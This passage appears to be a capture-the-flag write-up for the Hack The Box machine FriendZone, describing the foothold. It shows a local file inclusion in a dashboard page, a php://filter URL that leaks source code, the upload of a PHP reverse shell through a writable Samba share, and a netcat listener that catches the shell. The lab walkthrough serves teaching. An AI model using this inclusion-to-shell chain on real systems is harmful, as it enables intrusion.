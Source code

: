 ## Foothold
After we log in into the portal, we can see the following statement
```
image_name param is missed !
please enter it to show the image
default is image_id=a.jpg&pagename=timestamp
```
so, if we try to set the parameter we are shown a picture, a.jpg and the following: ```Final Access timestamp is 1642521979```.
So, we can assume that the page is somehow including a page that profide timestamp.  
If we try to include, for example, login, we get ```Wrong!``` that is the same response that gets returned when an incorrect credential is given to login page.  
As a further evidence, we can also try to include ```dashboard``` this will include the page recursively and lock the webserver.  
So, it seems like we have a LFI vulnerability.  
If we try to include any system file the include fails.  
Now, let's try to download the code using the following php wrapper:  
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login
```
PHP comes with many [built-in wrappers](https://www.php.net/manual/en/wrappers.php) for various URL-style protocols for use with the filesystem functions such as fopen(), copy(), file_exists() and filesize().  
In this case we are using php:// wrapper that allows us to access various I/O streams.  
We can use convert.* filters to processing all stream data through the base64_encode() and base64_decode() functions respectively.  
So as a result we can inject this conversion wrappers in the include() function and get the base64 encoded php source code.  
As we cans see in the dashboard.php source code we have an include for a file from the GET parameter, and the .php extension is added directly within the code
```
include($_GET["pagename"].".php");
```
Now we need to transform the discovered LFI into RCE.  
To do so, if we remember, way back we discovered a /Developer samba share that we can write into.  
since the File share is mounted on ```/etc/Files``` we can guess that the Developer share is mounted in ```/etc/Development```.
Let's upload a reverse shell there and try to include it using the LFI:
```
[root@kali FriendZone ]$ smbclient //$TARGET/Development
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (47.5 kb/s) (average 47.5 kb/s)
smb: \> ls
  .                                   D        0  Tue Jan 18 16:47:21 2022
  ..                                  D        0  Wed Jan 23 22:51:02 2019
  php-reverse-shell.php               A     5493  Tue Jan 18 16:47:21 2022

                9221460 blocks of size 1024. 6443916 blocks available
smb: \>
```
now lets request the following:
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell
```
And we get a shell.
```
root@kali:~/Documents/HTB/Boxes/FriendZone# nc -lvnp 9001
listening on [any] 9001 ...
        connect to [10.10.14.10] from (UNKNOWN) [10.10.10.123] 41828
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```